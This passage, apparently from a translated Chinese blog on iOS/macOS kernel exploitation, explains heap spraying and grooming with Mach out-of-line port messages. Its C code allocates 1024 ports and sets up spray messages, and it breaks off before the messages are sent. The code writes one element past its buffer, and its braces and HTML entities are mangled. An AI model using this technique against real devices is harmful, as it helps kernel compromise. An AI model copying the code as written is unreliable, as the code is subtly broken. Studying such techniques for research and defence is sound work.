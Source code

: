 **<br>**

**（2）OOL Port 风水**

正如我之前在 OOL Port 系列博客中简要提到的，我使用 OOL Port 将数据放入内核堆并使用喷射和风水技术。这是因为 OOL Port 数据在内核中会保留到收到结束信号为止。

Port 风水的步骤简要说明如下：

**创建大量端口**

**消息生成（发送，接收）**

**创建一些用作地址的虚拟端口（MACH_PORT_DEAD）**

**发送消息**

**接收消息**

**重新发送消息**

当执行上述操作时，OS 在重复发送和接收的端口收集的地址周围分配数据。

使用的代码是：



```
struct ool_send_msg`{`
    mach_msg_header_t msg_head;
    mach_msg_body_t msg_body;
    mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
`}`;
struct ool_recv_msg`{`
    mach_msg_header_t msg_head;
    mach_msg_body_t msg_body;
    mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
    mach_msg_trailer_t msg_trailer;
`}`;
struct ool_send_msg send_msg;
struct ool_recv_msg recv_msg;
mach_port_t* ool_port_fengshui()`{`
    int current_port_num = 0;
    mach_port_t* ool_ports;
    ool_ports = calloc(PORT_COUNT, sizeof(mach_port_t));
    // Part 1. Create OOL Ports
    for(current_port_num = 0; current_port_num &lt; PORT_COUNT; current_port_num++)`{` // Alloc 1024 Ports
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ool_ports[current_port_num]); // Alloc Port
        mach_port_insert_right(mach_task_self(), ool_ports[current_port_num], ool_ports[current_port_num], MACH_MSG_TYPE_MAKE_SEND); // MACH_MSG_TYPE_MAKE_SEND Right Set.
    `}`
    // Part 2. Create Message Buffer (Spray)
    mach_port_t* use_ports = calloc(1024, sizeof(mach_port_t));
    for(int i = 0; i &lt;= 1024; i++)`{`
        use_ports[i] = MACH_PORT_DEAD;
    `}`
    /* Set MSG HEADER */
    send_msg.msg_head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    send_msg.msg_head.msgh_size = sizeof(struct ool_send_msg) - 16;
    send_msg.msg_head.msgh_remote_port = MACH_PORT_NULL;
    send_msg.msg_head.msgh_local_port = MACH_PORT_NULL; // NULL SEND
    send_msg.msg_head.msgh_reserved = 0x00;
    send_msg.msg_head.msgh_id = 0x00;
    
    /* SET MSG BODY */
    send_msg.msg_body.msgh_descriptor_count = 1;
    
    /* SET MSG OOL PORT DESCRIPTOR */
```